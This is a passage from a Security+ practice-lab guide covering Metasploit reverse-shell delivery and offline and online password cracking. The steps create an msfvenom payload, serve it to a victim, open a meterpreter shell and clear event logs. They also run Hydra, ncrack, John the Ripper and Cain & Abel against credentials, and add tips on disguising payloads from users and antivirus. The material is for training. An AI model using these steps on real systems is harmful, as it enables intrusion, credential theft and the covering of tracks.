Figure 2.13 Screenshot of PLABKALI: Logging on to the Kali Linux device.
Step 2
After a successful login, the desktop is displayed.
 Figure 2.14 Screenshot of PLABKALI: Displaying the PLABKALI desktop after the successful login.
Figure 2.14 Screenshot of PLABKALI: Displaying the PLABKALI desktop after the successful login.
Step 3
In the menu bar, in the top left, click Terminal Emulator.
 Figure 2.15 Screenshot of PLABKALI: Clicking the Terminal Emulator icon in the menu bar.
Figure 2.15 Screenshot of PLABKALI: Clicking the Terminal Emulator icon in the menu bar.
Step 4
You can list the existing payloads that are available with msfvenom.
To do this, type the following command:
msfvenom -l payloads
Press Enter.
 Figure 2.16 Screenshot of PLABKALI: Typing in the msfvenom command to list the payloads.
Figure 2.16 Screenshot of PLABKALI: Typing in the msfvenom command to list the payloads.
Step 5
The output of this command is displayed.
Note: You can scroll up to view the list of payloads from the start.
Figure 2.17 Screenshot of PLABKALI: Showing the list of payloads as the output of the msfvenom command.
Step 6
Clear the screen by entering the following command:
clear
You can select a payload with the -p parameter.
To do this, type the following command:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.4 -f exe -o payload.exe
Note: The -p parameter sets the module that needs to be used. The -f parameter is used to specify the file format. The -o parameter sets the correct options to be used with the module. The LHOST parameter sets the local host, which is PLABKALI.
Press Enter.
Figure
2.18 Screenshot of PLABKALI: Creating the exploit using the command to
select a payload and set the file format and options.
Step 7
Notice the output of the given command. The executable payload with the name payload.exe is now created.
Figure 2.19 Screenshot of PLABKALI: Showing the output of the msfvenom command.
Keep the terminal window open.
Task 4 - Share the Payload with the Victim
After creating a payload, you need to ensure that it
reaches the victim’s system. For example, you can share it on a USB, but
this may not be possible if you are in a different city or country. The
easiest method can be to share it on the Web, which can then be
downloaded by the victim.
In this task, you will learn to compromise a host.
Step 1
You need to ensure that the payload file is available to the target system. To do this, you need to start the SimpleHTTPServer.
To do this, type the following command:
python -m SimpleHTTPServer
Press Enter.
Figure 2.20 Screenshot of PLABKALI: Entering the command to start the SimpleHTTPServer.
Step 2
Notice that the SimpleHTTPServer has now started.
Figure 2.21 Screenshot of PLABKALI: Showing the SimpleHTTPServer Webserver started.
Step 3
Connect to PLABWIN10. The desktop is displayed.
Figure 2.22 Screenshot of PLABWIN10: Showing the desktop of the PLABWIN10 system.
Step 4
In the Type here to search text box, type the following:
Internet Explorer
From the search results, select Internet Explorer.
Figure 2.23 Screenshot of PLABWIN10: Selecting Internet Explorer from the search results.
Step 5
Note: You may be prompted to accept the recommended settings. Select Use recommended security and compatibility settings and click OK.
A new tab opens up. In the address bar, type the following URL:
http://192.168.0.4:8000/payload.exe
Press Enter.
Note: Downloading
and executing this file will create a reverse connection to the
attacker’s system. This means that when the user clicks on the file, a
connection is established back to the attacker’s system.
Figure 2.24 Screenshot of PLABWIN10: Showing the URL for the payload.exe file typed in the Internet Explorer address bar.
Step 6
You are prompted to download payload.exe. Click Save.
Note: In a
real-world scenario, you would not name the file payload.exe. It would
usually be a name that would attract the user to download the file.
Also, in most scenarios, these files are protected to avoid being caught
by the antivirus scanners.
 Figure 2.25 Screenshot of PLABWIN10: Showing the prompt to download the payload.exe file and clicking Save.
Figure 2.25 Screenshot of PLABWIN10: Showing the prompt to download the payload.exe file and clicking Save.
Step 7
In the notification bar, click View downloads.
Figure 2.26 Screenshot of PLABWIN10: Clicking the View downloads button.
Step 8
The View Downloads - Internet Explorer dialog box is displayed.
Right-click the payload.exe file and select Open containing folder.
Figure 2.27 Screenshot of PLABWIN10: Right-clicking the payload.exe file and selecting Open containing folder.
Step 9
The File Explorer window is opened. Notice that the payload.exe file is now downloaded in the Downloads folder.
 Figure 2.28 Screenshot of PLABWIN10: Showing the payload.exe file in the Downloads folder in the File Explorer window.
Figure 2.28 Screenshot of PLABWIN10: Showing the payload.exe file in the Downloads folder in the File Explorer window.
Task 5 - Use the Multi/handler Module and Exploit the System
Since you created a standalone module, it will not
create a connection between you and the victim’s system. To do this, you
need to use the multi/handler module, which will catch the meterpreter connection when the payload.exe is
executed on the victim’s system. The meterpreter connection is required
to establish a connection between the hacker’s and target’s systems.
To use the multi/handler module, perform the following steps:
Step 1
Connect to PLABKALI. Notice that SimpleHTTPServer is still running.
Figure 2.29 Screenshot of PLABKALI: Showing the terminal window.
Step 2
You need to start msfconsole.
Click the Applications icon, select 08 - Exploitation Tools and then select the metasploit framework.
Figure 2.30 Screenshot of PLABKALI: Starting the metasploit framework from the Applications menu.
Step 3
A new terminal window is displayed. Type the following command:
msfconsole
Press Enter.
Figure 2.31 Screenshot of PLABKALI: Starting the metasploit framework on the terminal window.
Step 4
The metasploit framework starts and displays the msfconsole prompt.
You need to set the multi/handler module.
Type the following command:
use multi/handler
Press Enter.
 Figure 2.32 Screenshot of PLABKALI: Setting the multi/handler module.
Figure 2.32 Screenshot of PLABKALI: Setting the multi/handler module.
Step 5
The module is now set. Next, you need to set the windows/meterpreter/reverse_tcp payload used with msfvenom.
To do this, type the following command:
set payload windows/meterpreter/reverse_tcp
Press Enter.
Figure 2.33 Screenshot of PLABKALI: Setting the windows/meterpreter/reverse_tcp payload.
Step 6
The payload is now set. Type the following command to see its options:
show options
Press Enter.
Figure 2.34 Screenshot of PLABKALI: Entering the show options command.
Step 7
Notice the output of this command. You will need to
set the localhost, which is currently not set. You can use the default
port. When the connection is established with the target, the output
will be redirected to the localhost, which is PLABKALI.
To set the LHOST value, type the following command:
set LHOST 192.168.0.4
Press Enter.
Figure 2.35 Screenshot of PLABKALI: Setting the LHOST value in the terminal.
Step 8
The value of LHOST is now set to 192.168.0.4.
Note: You can run the show options command again to verify the value.
Figure 2.36 Screenshot of PLABKALI: Showing the output of the LHOST command.
Step 9
Finally, it is time to trigger the payload. Type the following command:
exploit
Press Enter.
Figure 2.37 Screenshot of PLABKALI: Typing in the exploit command.
Step 10
The session has now started. The connection between the localhost, PLABKALI, and the target system is now established.
Figure 2.38 Screenshot of PLABKALI: Showing the start of reverse TCP handler in Kali.
Step 11
Switch back to PLABWIN10.
You should be in the Downloads folder. Double-click the payload.exe file to execute it.
Alert: Ensure that the Windows Firewall is set to Off. You also need to stop Windows Defender for the next steps to be successful. These settings should have been applied in Task 1 and Task 2 of this exercise.
Notice that nothing happens in PLABWIN10 after
you double-click the file. This is because it is a custom exploit and
does not generate any output. This file will be executed and will
continue to run the background without user’s knowledge. When this file
is executed, it creates a reverse connection with the Kali Linux system.
Figure 2.39 Screenshot of PLABWIN10: Double-clicking the payload file in File Explorer.
Step 12
Switch back to PLABKALI. Notice that a meterpreter connection with PLABWIN10 is now successfully established.
Note: If you get a prompt regarding the SmartScreen filter, click Run.
Figure 2.40 Screenshot of PLABKALI: Showing the meterpreter prompt with a successful connection to PLABWIN10.
Step 13
To get the current logged in user account details of PLABWIN10, type the following command:
getuid
Press Enter.
Figure 2.41 Screenshot of PLABKALI: Typing in the getuid command.
Step 14
Notice the current logged in user account name is
displayed. Because you have control over the PLABWIN10 system, you can
run various commands to get the details.
 Figure 2.42 Screenshot of PLABKALI: Showing the output of the getuid command.
Figure 2.42 Screenshot of PLABKALI: Showing the output of the getuid command.
Step 15
Note: The clear
command does not work on the meterpreter command shell. If you would
like to clear the window, you can press Enter multiple times as seen
below. However, this action is not mandatory for this module.
To open the Windows command prompt, type the following command:
shell
Press Enter.
Figure 2.43 Screenshot of PLABKALI: Typing in the shell command.
Step 16
The Windows command prompt is displayed.
Figure 2.44 Screenshot of PLABKALI: Showing the output of the shell command. Windows command prompt is displayed.
Step 17
You can now use all of the Windows command prompt commands.
To list the existing users in PLABWIN10, type the following command:
net users
Press Enter.
Figure 2.45 Screenshot of PLABKALI: Typing in the net users command.
Step 18
The output of the net users command is displayed.
Figure 2.46 Screenshot of PLABKALI: Showing the output of the net users command.
Step 19
To exit from the Windows command prompt, type the following command
exit
Press Enter. You are back on the meterpreter command prompt.
Figure 2.47 Screenshot of PLABKALI: Exiting from the Windows command prompt.
Step 20
To ensure that you are not being tracked, you can remove any traces that the payload must have left behind.
To do this, you need to clear all the logs on the Windows system. Type the following command:
clearev
Press Enter.
Figure 2.48 Screenshot of PLABKALI: Clearing the logs using the clearev command.
Step 21
Notice that the log files are now cleared. Some of the logs cannot be cleared as you have not escalated privileges.
Logs, such as security and system logs, can only be
cleared when you have gained administrative privileges. Even though you
have gained access to the system, you have not gained administrative
privileges. Therefore, you cannot clear all the logs.
Figure 2.49 Screenshot of PLABKALI: Showing the output of the clearev command.
Step 22
To exit from the meterpreter session, type the following command:
exit
Press Enter.
Figure 2.50 Screenshot of PLABKALI: Exiting from the meterpreter command prompt.
Step 23
To exit from the msf5 console, type the following command:
exit
Press Enter.
 Figure 2.51 Screenshot of PLABKALI: Exiting from the msf5 console.
Figure 2.51 Screenshot of PLABKALI: Exiting from the msf5 console.
Step 24
You should now be back on the terminal prompt.
Close terminal windows.
Figure 2.52 Screenshot of PLABKALI: Showing the terminal window prompt.
80e3ace3-3818-477e-9d50-9fdfea66eb75
<
Home |
README >
CompTIA Security+ Practice Labs
Exercise 3 - Performing Online Password Attacks
An online password attack can be performed on various
network services, such as HTTP or FTP. For example, an attacker might
attempt to guess a user’s password from a Website login. Often, servers
or network devices are not equipped to block an online password attack.
Therefore, these attacks can succeed without much difficulty.
There are two types of password attacks. The first type is a dictionary attack, which uses a list of common words. It continues to run through the list until a suitable match is found. On the other hand, a brute-force attack attempts
to use words based on a given character set, such as
abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ. With an online
password attack, either one of the methods can be used.
In this exercise, you will learn about performing an online password attack.
Disclaimer: The tools and
techniques displayed in these exercises are to be used for the greater
good of improving network security. Please do not use these techniques
for malicious activities. Usage of all tools for attacking targets
without prior mutual consent is illegal. Practice Labs assume no
liability for any misuse or damage caused if these tools and techniques
are used for malevolent activities.
Learning Outcomes
After completing this exercise, you should be able to:
- Use Wordlists
- Create a User Account in FTP
- Use Hydra to Guess Usernames and Passwords
After completing this exercise, you should have further knowledge of:
- Spraying
- Plaintext/Unencrypted
Your Devices
You will be using the following devices in this lab. Please power these on now.
- PLABDC01 - (Windows Server 2019 - Domain Controller)
- PLABWIN10 - (Windows 10 - Domain Member Workstation)
- PLABKALI - (Kali Linux 2019.4 - Standalone Server)

Spraying
In a brute-force attack, an attacker continues to use
random passwords against a single user account. However, if the
organization has a Password Policy implemented, the user account gets
locked out after a specified amount of unsuccessful attempts. For
example, the Password Policy may state that after five wrong password
attempts, the user account is locked for 30 minutes.
Password spraying is a type of brute-force method that
is considered to be slow and steady. Instead of targeting a single user
account with several passwords, the attacker uses a few passwords but
several user accounts. In the password spraying method, the attacker
will try one password with several user accounts before moving to the
next password. They try passwords that are most commonly used, such as
123456 or Passw0rd.
Plaintext/Unencrypted
Plaintext or unencrypted passwords should be
controlled by the administrators and developers of an application. When
plaintext or unencrypted passwords are transmitted over an unsecured
channel, they are likely to be sniffed. Since the passwords are in
plaintext, the attacker access them without any additional efforts.
Similarly, the developers may make the mistake of
saving the passwords in a database in cleartext or unencrypted format.
If someone gains control of the database, they can access the passwords.
Task 1 - Create a User Account in FTP
You can only crack a password if the user exists. Even
for FTP (File Transfer Protocol), you need to create user accounts,
assign passwords, and assign the directory that belongs to the user. You
can either use the existing user accounts in Windows and assign them
FTP permissions, or you can create new users directly on an FTP server,
such as FileZilla.
In this task, you will create a user account in FTP.
Step 1
Connect to PLABWIN10. You should be on the desktop.
Note: If you have performed the previous tasks, the File Explorer window should be open. Along with this window, close any other window if opened.
 Figure 3.1 Screenshot of PLABWIN10: Showing the PLABWIN10 desktop.
Figure 3.1 Screenshot of PLABWIN10: Showing the PLABWIN10 desktop.
Step 2
Click the File Explorer icon in the taskbar.
 Figure 3.2 Screenshot of PLABWIN10: Clicking the File Explorer icon in the taskbar.
Figure 3.2 Screenshot of PLABWIN10: Clicking the File Explorer icon in the taskbar.
Step 3
In the File Explorer window, select Local Disk (C:) in the left pane. In the right pane, right-click select New and then select Folder.
Figure
3.3 Screenshot of PLABWIN10: Right-clicking in the right pane of File
Explorer and selecting New and then selecting Folder.
Step 4
Name the new folder as FTP and press Enter.
Figure 3.4 Screenshot of PLABWIN10: Entering the new folder name as FTP and press Enter.
Step 5
Double-click FTP to navigate inside it and then right-click, select New, and then select Folder.
Figure
3.5 Screenshot of PLABWIN10: Right-clicking in the right pane of File
Explorer and selecting New and then selecting Folder.
Step 6
Name the new folder plab and press Enter.
 Figure 3.6 Screenshot of PLABWIN10: Entering the new folder name as plab and pressing Enter.
Figure 3.6 Screenshot of PLABWIN10: Entering the new folder name as plab and pressing Enter.
Step 7
Close the File Explorer window.
Figure 3.7 Screenshot of PLABWIN10: Closing the File Explorer window.
Step 8
In the Type here to search text box, type the following:
xampp
From the search results, select the XAMPP Control Panel.
Figure 3.8 Screenshot of PLABWIN10: Selecting the XAMPP Control Panel from the search results.
Step 9
The XAMPP Control Panel v3.2.4 is displayed. Click the Start button for Apache.
Figure 3.9 Screenshot of PLABWIN10: Clicking the Start button for Apache.
Step 10
Similarly, click Start for MySQL and FileZilla.
Figure 3.10 Screenshot of PLABWIN10: Clicking the Start buttons for MySQL and FileZilla.
Step 11
Notice in the bottom section that the services for Apache, MySQL, and FileZilla have started.
Click the Admin button for FileZilla.
Figure 3.11 Screenshot of PLABWIN10: Clicking the Admin button for FileZilla.
Step 12
The Connect to Server dialog box is displayed.
Keep the default settings and click OK.
Figure 3.12 Screenshot of PLABWIN10: Clicking OK on the Connect to Server dialog box.
Step 13
The FileZilla server has now started. The FileZilla Server (127.0.0.1) dialog box is displayed.
You will now create a user on the FTP server.
Click the single user icon, which is the fourth icon from the left on the toolbar.
Figure 3.13 Screenshot of PLABWIN10: Clicking the single user icon on the FileZilla Server (127.0.0.1) dialog box.
Step 14
The Users dialog box is displayed.
In the Users section, click Add.
Figure 3.14 Screenshot of PLABWIN10: Clicking Add on the Users dialog box.
Step 15
The Add user account dialog box is displayed.
In the text box, enter plab and click OK.
Figure 3.15 Screenshot of PLABWIN10: Entering the user name ‘plab’ in the Add user account dialog box and clicking ok.
Step 16
Back on the Users dialog box, select the Password checkbox, and in the text box next to it, type the following password:
bug
In the left pane, click Shared folders.
Figure
3.16 Screenshot of PLABWIN10: Selecting the Password checkbox, entering
the password, and clicking the Shared folders option.
Step 17
In the Shared folders section, click Add.
Figure 3.17 Screenshot of PLABWIN10: Clicking Add in the Shared folders section.
Step 18
In the Browse for Folder dialog box, expand Local Disk (C:), expand FTP and then select plab. Click OK.
Note: In a
real-world scenario, you should never store FTP files in the root of a
drive, such as the root of C drive, because anyone accessing the files
using the particular user account would have access to the entire drive,
which may be a security concern. You would rather store the data in a
user-specific directory and permit the user account to use this
directory only.
Figure 3.18 Screenshot of PLABWIN10: Selecting the plab folder on the Browse for Folder window and clicking OK.
Step 19
Back on the Users dialog box, click OK.
Figure 3.19 Screenshot of PLABWIN10: Clicking OK on the Users dialog box.
Step 20
You are back on the FileZilla Server (127.0.0.1) dialog box.
 Figure 3.20 Screenshot of PLABWIN10: Showing the FileZilla Server (127.0.0.1) dialog box.
Figure 3.20 Screenshot of PLABWIN10: Showing the FileZilla Server (127.0.0.1) dialog box.
Task 2 - Use Wordlists
A list of words, known as a wordlist, is predefined
and used to match against the victim’s password in a dictionary attack.
There are ready-made password lists available on the Internet, ranging
from a few bytes to multiple gigabytes. However, you can also create
your own wordlist. Some of the tools that are commonly used to do this
are:
- Wyd: Password profiling tool
- Crunch: Password cracking wordlist generator
- CeWL: Password cracking custom word list generator
- RSMangler: Keyword based wordlist generator for brute forcing
In this task, you will learn about creating a wordlist.
Step 1
Ensure PLABKALI device is powered on. In the Enter your username text box, type the following:
root
In the Enter your password text box, type the following:
Passw0rd
Click Log In or press Enter.
 Figure 3.21 Screenshot of PLABKALI: Logging on to the Kali Linux machine.
Figure 3.21 Screenshot of PLABKALI: Logging on to the Kali Linux machine.
Step 2
After a successful login, the desktop is displayed.
 Figure 3.22 Screenshot of PLABKALI: Displaying the desktop after the successful login.
Figure 3.22 Screenshot of PLABKALI: Displaying the desktop after the successful login.
Step 3
In the menu bar, click Terminal Emulator.
 Figure 3.23 Screenshot of PLABKALI: Clicking the Terminal Emulator icon in the menu bar.
Figure 3.23 Screenshot of PLABKALI: Clicking the Terminal Emulator icon in the menu bar.
Step 4
The terminal window is displayed.
First, let’s look at the predefined wordlists that are available in Kali Linux. To do this, type the following command:
ls -l /usr/share/wordlists
Press Enter.
Figure 3.24 Screenshot of PLABKALI: Entering the command into the terminal to list the predefined wordlists.
Step 5
Notice several wordlist files are displayed. However,
you will not be using one of these existing wordlists, you will create
your own new list.
Figure 3.25 Screenshot of PLABKALI: Showing the predefined wordlists in Kali Linux.
Step 6
Clear the screen by entering the following command:
clear
You can use predefined wordlists, download wordlists
from the Internet, or create wordlists manually. Here, you will create a
small wordlist manually.
In the command prompt window, type the following command:
leafpad plab.txt
Press Enter.
Figure 3.26 Screenshot of PLABKALI: Entering the command to open the plab.txt file in leafpad.
Step 7
Leafpad opens with a file named (plab.txt).
Type the following words:
test
bee
bug
12345
12345678
password
passw0rd
p@ssw0rd
admin
admin@123
Press Enter after each word (except the last one).
 Figure 3.27 Screenshot of PLABKALI: Entering the words in the Untitled file.
Figure 3.27 Screenshot of PLABKALI: Entering the words in the Untitled file.
Step 8
Press Ctrl + s to save the file.
Close the plab.txt file.
Figure 3.28 Screenshot of PLABKALI: Saving the file as plab.txt.
Step 9
To verify that plab.txt has been created, type the following command in the terminal window:
ls -l
Press Enter.
Notice that the plab.txt file is created in the root folder.
Figure 3.29 Screenshot of PLABKALI: Showing the plab.txt file in the root folder.
Step 10
Clear the screen by entering the following command:
clear
Kali Linux also contains a tool named cewl, which is used to generate wordlists.
Type the following command:
cewl -w test.txt -d 5 -m 3 intranet
Press Enter.
Note: The parameter -w defines the name of the wordlist. The -d parameter defines the depth of the search in a Website. The -m parameter defines the minimum word length.
Figure 3.30 Screenshot of PLABKALI: Entering the cewl command to generate the wordlist.
Step 11
The command runs successfully. The cewl command has created a wordlist with the words used on the Intranet website.
Figure 3.31 Screenshot of PLABKALI: Showing the outcome of the cewl command.
Step 12
To verify the test.txt file has been created, type the following command:
ls -l
Press Enter.
Figure 3.32 Screenshot of PLABKALI: Entering the ls command to list files.
Step 13
Notice that the test.txt file has been created.
Figure 3.33 Screenshot of PLABKALI: Showing the file listing with the test.txt file.
Step 14
Clear the screen by entering the following command:
clear
Let’s open the test.txt file and see the words that are stored in it.
Type the following command:
leafpad test.txt
Press Enter.
Figure 3.34 Screenshot of PLABKALI: Entering the command to open the test.txt file with Leafpad.
Step 15
The test.txt file is now open. It has captured several words from the Intranet Website.
Close this file.
Clear the screen by entering the following command:
clear
Figure 3.35 Screenshot of PLABKALI: Showing the contents of the test.txt file.
Keep the terminal window open.
Task 3 - Use Hydra to Guess Usernames and Passwords
Hydra is a tool that can perform dictionary attacks against
several protocols, such as HTTP, FTP, SMB, SSH, and so on. Hydra is
designed to conduct attacks against authentication services, which might
be running using a protocol, such as HTTP.
In this task, you will use Hydra to guess usernames and passwords.
Step 1
Ensure you have powered on all the devices listed in the introduction and connect to PLABKALI. The command prompt window should be open.
Now, you will use Hydra to perform a dictionary attack using plab.txt that you previously created.
Note: In reality, the wordlist would be a lot longer than the one being used in this demonstration.
You have an FTP server running on 192.168.0.3. You will use the plab.txt file to perform a dictionary attack against this server.
To do this, type the following command:
hydra -t 5 -V -f -l plab -P plab.txt 192.168.0.3 ftp
Press Enter.
Note: The hydra command takes the following parameters inputs:
-t: Defines the number of logins to try simultaneously.
-V: Displays each attempt of login and password.
-f: Stops the dictionary attack after a suitable match for username and password is found.
-l username: Defines a username that
needs to be cracked. If you do not know the username, you can use the -L
parameter and provide a username list similar to the wordlist.
-P wordlist: Defines the wordlist containing probable passwords. You can use the -p parameter for a single password.
The website name or IP address: Defines the Website name or its IP address.
Protocol: Defines the services on which the dictionary attack is launched.
Figure 3.36 Screenshot of PLABKALI: Entering the hydra command with parameters to launch a dictionary attack.
Step 2
Let’s see if Hydra has been able to find out the password for the user, plab.
Note: The amount of time this takes will vary depending on the size of the wordlist and computer resources available.
Notice the text in green. You have been able to crack the password for this FTP service on the host, 192.168.0.3.
Alert: If the password is not
returned like the below screenshot, please reboot PLABWIN10 and connect
to the device when it has successfully rebooted to then start XAMPP
Control Panel and click Start on Apache, MySQL, and Filezilla again.
Afterwards, click Admin next to the Filezilla entry in XAMPP.
Alternatively, please refer to Task 1, Steps 8-12.
Once Filezilla is started again, connect to PLABKALI and reattempt the hydra command in the previous step.
Figure 3.37 Screenshot of PLABKALI: Showing the successfully captured username and password.
Note: Different passwords may appear in the terminal for different users.
Step 3
Clear the screen by entering the following command:
clear
Press Enter
Now, let’s attack the Webserver running on PLABWIN10.
Type the following command:
hydra -t 5 -V -f -l admin -P plab.txt 192.168.0.3 http-get
Press Enter.
Figure 3.40 Screenshot of PLABKALI: Entering the hydra command and pressing Enter.
Step 4
The password is cracked using the plab.txt file.
Keep the terminal window open for the next exercise.
Alert: If the password is not
returned like the below screenshot, please reboot PLABWIN10 and connect
to the device when it has successfully rebooted to then start XAMPP
Control Panel and click Start on Apache, MySQL, and Filezilla again.
Afterwards, click Admin next to the Filezilla entry in XAMPP.
Alternatively, please refer to Task 1, Steps 8-12.
Once Filezilla is started again, connect to PLABKALI and reattempt the hydra command in the previous step.
Figure 3.41 Screenshot of PLABKALI: Showing the output with the cracked password.
Note: By using
the hydra application a successful dictionary password attack has been
conducted on the web server that is running on the PLABWIN10 device.
The username and password that was gathered can be used by an attacker
for malicious activity. Different passwords may appear in the terminal
for different users.
80e3ace3-3818-477e-9d50-9fdfea66eb75
Keep all devices in their current state and proceed to the next exercise.
<
Home |
README >
CompTIA Security+ Practice Labs
Exercise 4 - Performing Offline Password Attacks
Users tend to set easy to remember passwords, such as a
family member’s name or their pet’s name. To prevent users from using
simple passwords, a password policy is often enforced.
Unlike the online password attack (a method to crack a
password for a network service), the offline method is performed on a
file, such as /etc/shadow in Linux or SAM database in Windows.
Attackers use various offline attack techniques to
hack the target systems, for example, an offline password attack. In
this type of attack, the attacker tries to extract the password hashes
from database files such as the Security Accounts Manager (SAM). SAM is a
database file in Windows where the local user credentials are stored in
an encrypted format.
In this exercise, you will learn about performing an offline attack.
Disclaimer: The tools and
techniques displayed in these exercises are to be used for the greater
good of improving network security. Please do not use these techniques
for malicious activities. Usage of all tools for attacking targets
without prior mutual consent is illegal. Practice Labs assume no
liability for any misuse or damage caused if these tools and techniques
are used for malevolent activities.
Learning Outcomes
After completing this exercise, you should be able to:
- Crack Linux Passwords using John the Ripper
- Use ncrack in Kali Linux
- Generate Rainbow Tables
- Recover Windows Hashes using Cain and Abel
Your Devices
You will be using the following devices in this lab. Please power these on now.
- PLABDC01 - (Windows Server 2019 - Domain Controller)
- PLABWIN10 - (Windows 10 - Domain Member Workstation)
- PLABKALI - (Kali Linux 2019.4 - Standalone Server)
Task 1 - Crack Linux Passwords using John the Ripper
Every Linux system has two key files that contain the user and password information.
The first file is /etc/passwd, which contains the general user information, such as:
- Username
- Encrypted password
- The user ID number (UID)
- User's group ID number (GID)
- Full name of the user (GECOS)
- User home directory
- Login shell
Figure 4.1 Screenshot of PLABKALI: Showing the /etc/passwd file.
The /etc/shadow file stores the user password information in an encrypted form. This file also contains information, such as:
- Password expiry date
- Password change required or not
- Minimum and maximum time between password changes
Figure 4.2 Screenshot of PLABKALI: Showing the /etc/shadow file.
In this task, you will crack Linux passwords using John the Ripper.
Step 1
Ensure you have powered on all the devices listed in the introduction and connect to PLABKALI. The terminal window should be open.
Firstly, you need to use the unshadow command to combine both /etc/passwd and /etc/shadow files. In this step, you will combine both these files into a single file named pass. This needs to be done for John the Ripper to reveal the password.
To do this, type the following command:
unshadow /etc/passwd /etc/shadow > pass
Press Enter.
Figure 4.3 Screenshot of PLABKALI: Entering the unshadow command and pressing enter.
Step 2
Notice that the output is generated, and the command runs successfully.
Figure 4.4 Screenshot of PLABKALI: Showing the output of the unshadow command.
Step 3
Next, you will use John the Ripper to get the password from the file, pass.
To do this, type the following command:
john pass
Press Enter.
Figure 4.5 Screenshot of PLABKALI: Entering the john pass command.
Step 4
Notice that the password for the root user has been revealed successfully.
Figure 4.6 Screenshot of PLABKALI: Showing the retrieved password from the pass file.
Task 2 - Use ncrack in Kali Linux
Ncrack is another command-line tool that can be used
for brute-forcing the password on various services, such as an FTP
service. You can use ncrack with a wordlist to crack the password for a
specific username. You can also provide a list of usernames in a text
file and use it along with the passwords' wordlist file.
In this task, you will use ncrack to crack password using a wordlist.
Step 1
Connect to PLABKALI. Ensure that the terminal window is open.
Clear the window with the clear command.
clear
You will now use the ncrack tool.
Type the following command:
ncrack -user plab -P plab.txt 192.168.0.3:21
Press Enter.
Figure 4.7 Screenshot of PLABKALI: Typing in the ncrack command and pressing enter.
Step 2
The brute-force attack starts.
Figure 4.8 Screenshot of PLABKALI: Showing the brute-force attack in progress.
Step 3
Notice that the password is now cracked.
Figure 4.9 Screenshot of PLABKALI: Showing the cracked password.
Close the terminal window.
Task 3 - Generate Rainbow Tables
When a user enters a password to log on to the
operating system, the password is converted to a hash using an
encryption algorithm. Passwords are not stored in plain text format.
When the user enters the password, it is converted to a hash and then
compared with the stored hash, which is only a one-way function. If the
hashes match, then the user is authenticated. If they do not match, then
the user is not given access. Once a password is hashed, it cannot be
unhashed or reversed.
A rainbow table is a database that contains the
pre-computed list of plaintext passwords and their corresponding hash
values. When converted to a hash using a specific algorithm (such as
MD5), a particular word will always produce the same hash. For example,
if you convert Passw0rd to a hash, it will always generate the following
MD5 hash:
d41e98d1eafa6d6011d3a70f1a5b92f0
Rainbow Tables can take a long time to create, because
a single file can contain millions of passwords. However, they can be
re-used multiple times. You can create your Rainbow Tables or download
them from the Internet.
In this task, you will generate Rainbow Tables.
Step 1
Ensure you have powered on all the devices listed in the introduction and connect to PLABWIN10.
Click the File Explorer icon on the task bar.
Then click Start, expand Cain, and click Winrtgen.
Figure 4.10 Screenshot of PLABWIN10: Selecting Winrtgen from the Start menu.
Step 2
On the User Account Control dialog box, click Yes.
Figure 4.11 Screenshot of PLABWIN10: Clicking Yes on the User Account Control dialog box.
Step 3
The Winrtgen v2.9.4 (Rainbow Tables Generator) by mao dialog box is displayed.
Click Add Table.
Figure 4.12 Screenshot of PLABWIN10: Showing the Winrtgen dialog box and clicking Add Table.
Step 4
The Rainbow Table properties dialog box is displayed.
You will now change some of the values in this dialog box.
Figure 4.13 Screenshot of PLABWIN10: Showing the Rainbow Table Properties dialog box.
Step 5
Change the following values:
In the Hash drop-down, select md5.
In the Min Len text box, overwrite the existing value to 5.
In the Chain Count text box, overwrite the existing value to 1000.
Keep all other options as the default selections.
Click OK.
Figure 4.14 Screenshot of PLABWIN10: Entering values in various fields on the Rainbow Table properties dialog box.
Step 6
Back on the Winrtgen v2.9.4 (Rainbow Tables Generator) by mao dialog box, an MD5 Rainbow Table is now added.
Click OK.
Figure 4.15 Screenshot of PLABWIN10: Showing the added file in the Winrtgen dialog box.
Step 7
Select the rainbow table and click Start.
Notice that a Green checkmark appears against the file name. Click Exit.
Note: If you do not click Start, the file will not be created, and a Green checkmark will not appear against the file name.
Figure 4.16 Screenshot of PLABWIN10: Showing the Green checkmark next to the filename and clicking Exit.
Step 8
You are back on the File Explorer window.
Navigate to the following path:
C:\Program Files (x86)\Cain\Winrtgen
Notice that the MD5 Rainbow Table is now created in the Winrtgen folder.
Figure 4.17 Screenshot of PLABWIN10: Showing the MD5 Rainbow Table created in the Winrtgen directory.
Close the File Explorer window.
Task 4 - Recover Windows Hashes using Cain and Abel
Cain & Abel is a password cracking utility
that can help you recover passwords from various sources, such as local
and wireless systems. It offers various methods to crack a password.
These methods are:
- Dictionary
- Brute-force
- Crypto Analysis
In this task, you will recover Windows hashes using Cain and Abel.
Alert: Ensure that Windows Firewall is turned off. These settings should have been applied in Task 1 of Exercise 2.
Step 1
Ensure you have powered on the devices specified in the Introduction. Connect to PLABWIN10.
Then click Start, expand Cain, and click Cain.
 Figure 4.18 Screenshot of PLABWIN10: Selecting Cain from the start menu.
Figure 4.18 Screenshot of PLABWIN10: Selecting Cain from the start menu.
Step 2
When prompted with the User Account Control dialog box, click Yes.
Figure 4.19 Screenshot of PLABWIN10: Clicking Yes on the User Account Control dialog box.
Step 3
The Cain window is displayed.
Click the Cracker tab.
From the left pane, select LM & NTLM Hashes.
Figure 4.20 Screenshot of PLABWIN10: Clicking the Cracker tab, then selecting the LM & NTLM Hashes option in the left pane.
Step 4
Click the + (Add to list) button in the menu bar.
Figure 4.21 Screenshot of PLABWIN10: Clicking the + (Add to list) button in the menu bar.
Step 5
The Add NT Hashes from wizard is displayed.
Keep the default selection and click Next.
Figure 4.22 Screenshot of PLABWIN10: Showing the Add NT Hashes from wizard and clicking Next.
Step 6
Note that several user accounts are displayed along with their hashes.
Figure 4.23 Screenshot of PLABWIN10: Showing the user accounts along with their hashes.
Step 7
In the right pane, right-click the username Admin, select Brute-Force Attack, and then select NTLM Hashes.
Figure 4.24 Screenshot of PLABWIN10: Right-clicking Admin, selecting Brute-Force Attack, and then selecting NTLM Hashes.
Step 8
The Brute-Force Attack dialog box is displayed. The Predefined textbox contains a string of characters and numbers.
Click the drop-down and select the second to last list from the bottom.
This list contains lower and upper-case letters,
numbers, and special characters, which are all potentially included in a
password. Therefore, when brute-forcing passwords, you need to use them
so that the correct password can be discovered.
Figure 4.25 Screenshot of PLABWIN10: Selecting the predefined text characters and numbers.
Step 9
From the Password Length section, in the Max list box, set the value to 8.
Click Start.
Figure 4.26 Screenshot of PLABWIN10: Entering the maximum password length, then clicking Start.
Step 10
The password cracking process is initiated.
Note the time in the Time Left field. This
